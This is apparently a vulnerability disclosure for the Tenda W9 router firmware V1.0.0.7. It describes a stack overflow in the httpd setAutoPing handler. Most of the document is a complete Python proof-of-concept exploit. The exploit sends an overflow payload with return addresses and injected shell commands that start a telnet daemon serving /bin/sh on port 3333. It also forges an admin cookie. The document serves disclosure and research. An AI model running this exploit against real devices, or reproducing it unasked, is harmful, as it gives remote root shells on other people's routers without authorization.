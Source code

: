 # Tenda W9 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAutoPing` function, which can be accessed via the URL `/goform/setAutoPing`

![1](./1.jpg)





When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)
        #print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x11111111)+p32(0x77df8000+0x060320)+p32(0x4B43A0)
    payload='b'*0x10+"pingaaaaaaaaaa||telnetd -p 3333 -l /bin/sh ||echo aaa"+'b'*0x3d+p32(0x77df7000+0x7FFF0)+p32(0x77df7000+0x054C18)+p32(0x77df7000+0x080118)*4
    payload+='telnetd -p 3333 -l /bin/sh      '+p32(0x77df7000+0x60320)*2+p32(0x22222222)*3+p32(0x77df7000+0x19204)+p32(0x22222222)*6+'telnetd -p 3333 -l /bin/sh'   
    ip = '192.168.0.254'  
    # 构造http数据包
    s='1'
    pdata = {

        'linkEn'  :   '1' ,
        'ping2'  :   payload
        }

    header = {
        'Cookie'        : 'w9v1_user=admin',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/setAutoPing', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)


```





![poc1](./poc1.jpg)

![poc2](./poc2.jpg)

